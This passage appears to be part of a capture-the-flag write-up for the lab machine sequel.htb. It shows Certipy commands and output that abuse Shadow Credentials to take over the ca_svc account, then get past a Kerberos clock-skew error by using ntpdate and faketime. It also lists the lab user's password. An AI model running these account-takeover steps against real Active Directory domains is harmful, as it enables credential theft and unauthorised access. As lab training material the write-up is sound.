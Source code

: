 ####
```ruby
certipy shadow auto -u 'ryan@sequel.htb' -p 'WqSZAF6CysDQbGb3' -account ca_svc -dc-ip 10.10.11.51
    Result -> 
        [*] Targeting user 'ca_svc'
        [*] Generating certificate
        [*] Certificate generated
        [*] Generating Key Credential
        [*] Key Credential generated with DeviceID '235e9e44-e591-e63a-d2bf-c5a3b58624e9'
        [*] Adding Key Credential with device ID '235e9e44-e591-e63a-d2bf-c5a3b58624e9' to the Key Credentials for 'ca_svc'
        [*] Successfully added Key Credential with device ID '235e9e44-e591-e63a-d2bf-c5a3b58624e9' to the Key Credentials for 'ca_svc'
        [*] Authenticating as 'ca_svc' with the certificate
        [*] Using principal: ca_svc@sequel.htb
        [*] Trying to get TGT...
        [-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
        [*] Restoring the old Key Credentials for 'ca_svc'
        [*] Successfully restored the old Key Credentials for 'ca_svc'
        [*] NT hash for 'ca_svc': None
```
####
- ###### Certipy Param
    - `shadow` Abuse Shadow Credentials for account takeover 
    - `-u` Specify a user 
    - `-p` Specify a password 
    - `-account` Specify a account when we are try to ownership 
####
How you can see in previous output that **certipy** command don't work, in this web site there is a page dedicated to cover the *(Clock Skew Too Great)* Kerberos error. The most factivle solution is use **faketime**. For this, is necessary firstly, get the current date of the target machine executing `date` like **ryan** into the evil-winrm session or use a **ntpdate**
####
```ruby
date
    Result -> 
        Tuesday, May 6, 2025 3:07:50 PM

ntpdate sequel.htb
    Result ->
        2025-05-06 15:12:02.237340 (-0700) +3181.036456 +/- 0.059572 sequel.htb 10.10.11.51 s1 no-leap
        CLOCK: step_systime: Operation not permitted
```
####
The **ntpdate** is most factible because give us the exact date format that **faketime** need.
####
```ruby
faketime "2025-05-06 15:12:02" certipy shadow auto -u 'ryan@sequel.htb' -p 'WqSZAF6CysDQbGb3' -account ca_svc -dc-ip 10.10.11.51
    Result ->
        [*] Targeting user 'ca_svc'
        [*] Generating certificate
        [*] Certificate generated
        [*] Generating Key Credential
        [*] Key Credential generated with DeviceID '539d3fff-fe44-1ee7-7efc-8959dd8b8e71'
        [*] Adding Key Credential with device ID '539d3fff-fe44-1ee7-7efc-8959dd8b8e71' to the Key Credentials for 'ca_svc'
        [*] Successfully added Key Credential with device ID '539d3fff-fe44-1ee7-7efc-8959dd8b8e71' to the Key Credentials for 'ca_svc'
        [*] Authenticating as 'ca_svc' with the certificate
        [*] Using principal: ca_svc@sequel.htb
        [*] Trying to get TGT...
        [*] Got TGT
```